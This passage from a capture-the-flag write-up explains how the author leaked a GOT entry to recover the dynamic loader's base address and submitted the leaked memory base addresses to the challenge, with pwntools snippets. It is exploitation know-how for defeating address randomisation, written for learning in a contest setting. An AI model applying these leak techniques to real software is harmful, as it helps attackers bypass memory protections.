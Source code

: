 Basically, if you run `readelf -d chall` you will see that the `.got.plt` section is at `0x404000` (once again, I know the readelf output labels it PLTGOT, but just trust me about the naming), so `0x404010 = 0x404000 + 8 * 2` is the third entry of that pointer array

```
$ readelf -d chall

...
0x0000000000000003 (PLTGOT)             0x404000
...
```

Thus, to obtain the ld base addr, we leak the value at 0x404010 (since there is no PIE, the addr of `.got.plt` is fixed) and subtract the appropriate offset. 

```python
ld.address = leakfromaddr(0x404010, r) - (0x00007ffff7fd8d30 - 0x00007ffff7fc3000) # For some reason, ld.symbols._dl_runtime_resolve_xsavec doesn't work - probably pwntools isn't detecting the symbol for some reason
```

## Submitting the Obtained Base Addresses

Finally, we need to submit the obtained base (lowest) addresses in the following order 
1. Main executable
2. Heap
3. libc
4. ld
5. Stack
6. vvar
7. vDSO

This is done with the following loop

```python
report_arr = [0x400000, heap_base_addr, libc.address, ld.address, stack_top_addr, vvar_base_addr, vdso_base_addr]
for report in report_arr:
    r.recvline()
    r.sendline(str(report).encode())
    r.recvline()
```

after which we should be able to get the flag. 

## Caveat about running `solve.py` locally

If there is no `flag.txt` in the `./patched` directory, there will be no output from the script because pwntools' `r.interactive()` does not read stderr. 

## Flag

Did not obtain the flag (solved after the CTF ended)